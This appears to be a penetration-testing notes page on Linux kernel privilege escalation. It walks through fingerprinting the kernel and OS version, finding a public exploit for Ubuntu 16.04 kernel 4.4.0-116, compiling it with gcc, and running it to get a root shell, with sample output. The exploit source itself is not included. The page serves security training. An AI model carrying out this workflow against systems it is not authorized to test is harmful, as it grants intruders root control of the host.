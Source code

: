 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Kernel Exploitation

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.

Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it. Some of these exploits work out of the box, while others require modification. A quick way to identify exploits is to issue the command `uname -a` and search Google for the kernel version.

{% hint style="danger" %}
#### Warning

Kernel exploits can cause system instability so use caution when running these against a production system.
{% endhint %}

## Kernel Exploit Example

Let's start by checking the Kernel level and Linux OS version.

{% code title="Command" %}
```bash
uname -a
```
{% endcode %}

{% code title="Example Output" %}
```bash
Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
{% endcode %}

{% code title="Command" %}
```bash
cat /etc/lsb-release 
```
{% endcode %}

{% code title="Example Output" %}
```bash
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```
{% endcode %}

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with [this](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download it to the system using `wget` or another file transfer method. We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

{% code title="Command" %}
```bash
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```
{% endcode %}

Next, we run the exploit and hopefully get dropped into a root shell.

```shell-session
user@target[/]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell

root@target[/]# whoami

root
```
